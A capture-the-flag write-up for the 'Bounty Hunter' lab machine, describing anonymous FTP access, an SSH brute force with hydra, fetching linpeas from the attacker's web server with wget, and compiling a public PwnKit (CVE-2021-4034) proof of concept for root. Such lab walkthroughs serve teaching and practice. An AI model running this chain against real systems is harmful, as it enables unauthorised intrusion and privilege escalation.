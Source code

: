 # Bounty Hunter
 <p align="center">
<img src="bountyhunter.png">
<br>
 </p>

## Nmap
<p align="center">
<img src="nmap.png">
<br>
 </p>
 
 ## Inital Foothold

We see that port 21 is open so the first thing we want to do is check if we are able to anonymously log in. When that is succesfull we see two files. 
* ftp -u anonymous,anonymous 10.10.191.108
 
 <p align="center">
<img src="ftpuser.png">
<br>
 </p> 
 
 The first will give us lin as a username.
 * more task.txt
 
 <p align="center">
<img src="ftppassword.png">
<br>
 </p>
 The other one is a list of possible passwords. If we copy these into a text file we can use it to brute force the password for lin on ssh.
 
 * get locks.txt
 
 <p align="center">
<img src="sshbrute.png">
<br>
 </p>
 
 * hydra -l lin -P locks.txt 10.10.191.108 ssh
 
 ## Priv Esc
 
 We want to check if we are able to write to our home directory and if the machine has wget.
 * ls -l to check folder permissions
 * which wget to check if wget is installed
 
 Now on our machine we can start a python webserver so that we can transefer over linpeas to enumerate the machine
 * python3 -m http.server 80 to start a webserver on our machine
 * wget http://<your ip>/linpeas.sh
 With linpeas on the target machine we need to change permissons of the file so we can run it
 * chmod +x linpeas.sh
 
 
  <p align="center">
<img src="linpeas.png">
<br>
 </p>
 
 Linpeas shows us that the machine is vulnerabel to CVE-2021-4034. If we search github we find a poc that we can use. We will just download the whole folder form github and transfer the whole thing to the victim machine since it has gcc to compile the exploit
 * which gcc on the vuctim machine to ensure we can compile 
 * git https://github.com/berdav/CVE-2021-4034.git on our machine to get the POC
 * wget http://<your ip>/CVE-2021-4034
 * cd CVE-2021-4034 make

 <p align="center">
<img src="root.png">
<br>
 </p>
